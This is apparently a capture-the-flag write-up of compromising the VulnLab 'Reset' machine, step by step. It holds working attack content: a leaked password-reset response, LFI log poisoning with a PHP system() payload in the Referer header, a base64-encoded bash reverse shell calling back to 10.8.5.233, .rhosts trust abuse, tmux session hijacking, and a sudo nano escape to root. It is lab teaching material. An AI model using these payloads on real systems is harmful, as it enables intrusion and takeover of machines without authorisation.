

# Reset

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Reset** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80,512,513,514 --min-rate=1000 10.10.113.1
```



Now let’s go to the website running on port 80


Notice that we have a login page with a password reset link so let’s click on Forgot Password


Now let’s go and enter the admin username click send and intercept the request using burp suite.


Now let’s send the request and see the response.


Notice that the new password is leaked in the response so let’s try to login


Now login


Now as we see we logged in as administrator and we got the View Logs functionality so let’s click view log and intercept the request.


> Notice that the application is taking a parameter named file which is pointing on the /var/log directory so at this point any normal technique in the LFI will not work! 😢
> 

But since I took a promise to never give up I did it the hard way! 👊 

What about Log Poisoning! 😈

First send a request to this location

```bash
/var/log/apache2/access.log
```


Now create a reverse shell in bash

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.8.5.233/1337 0>&1'" | base64 -w0
```


Now change the referrer header to call a PHP system function to trigger our reverse shell

```bash
'<?php echo system("echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjUuMjMzLzEzMzcgMD4mMScK | base64 -d | bash");?>'
```


Now let’s send the request! 


> Notice that we got a internal error which is a good sign
> 

Now back to our machine let’s open a listener to catch our connection.

```bash
nc -nlvp 1337
```


Now let’s go and send a request the point to the error log file

```bash
/var/log/apache2/error.log
```


Now let’s go back to our listener!


and we got a reverse shell! 🥳

now let’s go to the / directory to get the flag

```bash
cd /;ls -las
```


> The exploit explanation the application source code is whitelisting any directory under /var/log so when a normal google search we can search where the Apache logs are stored in the system so we will find it stored at /var/log/apache2/ and since it’s  under the /var/log directory so we are allowed to access it and then by abusing the LFI to get the Log Poisoning working we managed to get a reverse shell on the machine
> 

Now let’s stable the shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


Now let’s hist CTRL + Z


Now write this in the terninal

```bash
stty raw -echo;fg
```


Now

```bash
export TERM=xterm
```


and we now have a stable shell.

Now as we remember we have the rservices running on the target machine so let’s see who can connect to it.

```bash
cat /etc/hosts.equiv
```


> notice that there is a user named sadm can connect to the r service
> 

so on our attack machine let’s add a user named sadm

```bash
sudo useradd -m -d /home/sadm -s /bin/bash sadm
```


now let’s set a password to this user

```bash
sudo passwd sadm
```


Now let’s go and create a file named .rhosts and add the allow sign to it

```bash
echo "+ +" > /home/sadm/.rhosts && chmod 600 /home/sadm/.rhosts && chown sadm:sadm /home/sadm/.rhosts
```


Now let’s switch to this user

```bash
su sadm
```


now let’s connect remotely to the machine

```bash
rlogin -l sadm 10.10.119.95
```


> We f***** logged in 🤬
> 

Now let’s list the tmux sessions

```bash
tmux ls
```


> Notice that there is an active tmux session
> 

now let’s attach to it

```bash
tmux attach -t sadm_session
```


> Now we are connected so we can see the password in plain-text
> 

Now let’s use the password with the SSH and login

```bash
ssh sadm@10.10.119.95
```


and we logged in

now let’s go and see our privilege

```bash
sudo -l
```


and we can edit the firewall script as root

```bash
sudo /usr/bin/nano /etc/firewall.sh
```


now save the changes using CTRL + X


now on your machine open a listener

```bash
nc -nlvp 1338
```


now open the firewall script again

```bash
sudo /usr/bin/nano /etc/firewall.sh
```


now enter this on the keyboard

```bash
CTRL + R
CTRL + X
```


notice it say execute command so let’s enter the script path

```bash
/etc/firewall.sh
```


now hit enter and go back to your reverse shell


now let’s go and get the root

```bash
cd /root;ls -las
```


And finally if freakin did it 🥳


That’s it for the **Reset** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX